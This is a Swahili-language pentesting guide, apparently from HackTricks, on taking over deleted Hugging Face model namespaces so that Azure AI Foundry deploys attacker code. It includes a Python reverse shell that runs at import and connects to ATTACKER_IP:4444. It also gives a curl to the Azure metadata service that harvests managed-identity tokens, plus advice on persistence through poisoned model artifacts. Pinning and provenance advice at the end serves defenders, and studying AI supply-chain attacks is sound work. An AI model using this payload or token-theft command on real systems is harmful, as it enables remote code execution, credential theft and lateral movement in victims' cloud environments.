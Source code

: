 # Azure - AI Foundry Post-Exploitation kupitia Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Senario

- Azure AI Foundry Model Catalog inajumuisha modeli nyingi za Hugging Face (HF) zinazoweza ku-deploy kwa bonyeza moja.
- Vitambulishi vya modeli za HF ni Author/ModelName. Ikiwa mwandishi/orga wa HF afutwe, mtu yeyote anaweza kujiandikisha tena kama mwandishi huyo na kuchapisha modeli yenye ModelName ile ile katika path ya zamani.
- Pipelines na catalogs zinazovutana kwa jina tu (bila commit pinning/integrity) zitatatua kwa repos zinazodhibitiwa na mshambuliaji. Wakati Azure inapo-deploy modeli, loader code inaweza kutekelezwa katika mazingira ya endpoint, ikitoa RCE kwa ruhusa za endpoint hiyo.

Mifano ya kawaida ya HF takeover:
- Uondoaji wa umiliki: Path ya zamani inaonyesha 404 hadi takeover.
- Uhamisho wa umiliki: Path ya zamani inarudisha 307 kwenda kwa mwandishi mpya wakati mwandishi wa zamani bado yupo. Ikiwa mwandishi wa zamani baadaye afutwe na kujisajili tena, redirect inavunjika na repo ya mshambuliaji hutoa huduma kwenye path ya zamani.

## Kutambua Namespaces Zinazoweza Kutumika Tena (HF)
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>        # 200 exists, 404 deleted/available

# Check model path
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 -> redirect (transfer case), 404 -> deleted until takeover
```
## Mtiririko wa Shambulio kutoka Mwanzo hadi Mwisho dhidi ya Azure AI Foundry

1) Katika Katalogi ya Modeli, tafuta modeli za HF ambazo waandishi wa awali walifutwa au kuhamishwa (muandishi wa zamani ameondolewa) kwenye HF.  
2) Sajili tena muandishi aliyeachwa kwenye HF na uunde tena ModelName.  
3) Chapisha repo yenye madhara inayojumuisha loader code inayotekelezwa wakati wa import au inayohitaji trust_remote_code=True.  
4) Weka Author/ModelName ya zamani kutoka Azure AI Foundry. Jukwaa linavuta repo ya mdukuzi; loader inatekelezwa ndani ya container/VM ya endpoint ya Azure, ikitoa RCE na ruhusa za endpoint.

Mfano wa kipande cha payload kinachotekelezwa wakati wa import (kwa maonyesho tu):
```python
# __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # or powershell on Windows images

if os.environ.get("AZUREML_ENDPOINT","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Maelezo
- AI Foundry deployments ambazo zinaunganisha HF kwa kawaida hufanya clone na kuimport moduli za repo zinazotajwa katika model’s config (mfano, auto_map), ambazo zinaweza kusababisha code execution. Baadhi ya njia zinahitaji trust_remote_code=True.
- Ufikiaji kwa kawaida unaendana na ruhusa za endpoint’s managed identity/service principal. Chukulia hii kama initial access foothold kwa ajili ya data access na lateral movement ndani ya Azure.

## Post-Exploitation Tips (Azure Endpoint)

- Orodhesha environment variables na MSI endpoints kwa tokens:
```bash
# Azure Instance Metadata Service (inside Azure compute)
curl -H "Metadata: true" \
"http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```
- Kagua uhifadhi uliounganishwa, vibaki vya modeli, na huduma za Azure zinazoweza kufikiwa ukitumia token uliopata.
- Fikiria persistence kwa kuacha poisoned model artifacts ikiwa jukwaa linarudisha kutoka HF.

## Mwongozo wa Kinga kwa Watumiaji wa Azure AI Foundry

- Pin modeli kwa commit wakati wa kupakia kutoka HF:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Fanya mirror ya HF models zilizothibitishwa kwenye registry ya ndani inayotegemewa na uzitekeleze kutoka huko.
- Endelea kuchunguza codebases na defaults/docstrings/notebooks kwa Author/ModelName zilizowekwa hard-coded ambazo zimefutwa/kuhamishwa; sasisha au pin.
- Thibitisha uwepo wa mwandishi na asili ya modeli kabla ya deployment.

## Recognition Heuristics (HTTP)

- Mwandishi aliyefutwa: ukurasa wa mwandishi 404; njia ya modeli ya zamani 404 hadi takeover.
- Modeli iliyohamishwa: njia ya zamani 307 kwenda kwa mwandishi mpya wakati mwandishi wa zamani bado yupo; ikiwa mwandishi wa zamani baadaye anafutwa na kujiandikisha tena, njia ya zamani itahudumia maudhui ya mshambuliaji.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Marejeo

- Tazama mbinu pana na maelezo ya mnyororo wa ugavi:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Marejeo

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
